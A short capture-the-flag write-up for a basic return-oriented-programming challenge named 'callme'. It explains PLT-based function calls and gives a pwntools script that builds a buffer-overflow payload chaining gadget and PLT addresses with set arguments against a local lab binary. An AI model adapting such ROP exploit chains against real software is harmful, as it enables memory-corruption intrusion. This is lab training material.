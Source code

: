 # Challenge Theory and Solution
This is a basic rop challenge, but the attacker has to call a specific set of functions from within the plt.
The plt basically gives a set of addresses where you can find the function.
This is because it enables functions being lazy loaded into memory.
This can also be used for rop chains.
The functions also have to be called with a set of arguments, but this is not really that important.
## Solve Script with Rop Chain
```python
#!/usr/bin/python3
import pwn
import sys
binary = "callme"
pwn.context.binary = binary
pwn.context.encoding = "latin"

padding = 40
gadget_triple_pop = pwn.p64(0x40093c)
gadget_callme_one = pwn.p64(0x400720)
gadget_callme_two = pwn.p64(0x400740)
gadget_callme_three = pwn.p64(0x4006f0)
arg_1 = pwn.p64(0xdeadbeefdeadbeef)
arg_2 = pwn.p64(0xcafebabecafebabe)
arg_3 = pwn.p64(0xd00df00dd00df00d)
payload = b"A"*40 + gadget_triple_pop + arg_1 + arg_2 + arg_3 + gadget_callme_one + gadget_triple_pop + arg_1 + arg_2 + arg_3 + gadget_callme_two + gadget_triple_pop + arg_1 + arg_2 + arg_3 + gadget_callme_three

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))
    io.send(payload)
    pwn.info(io.readrepeat(1))
```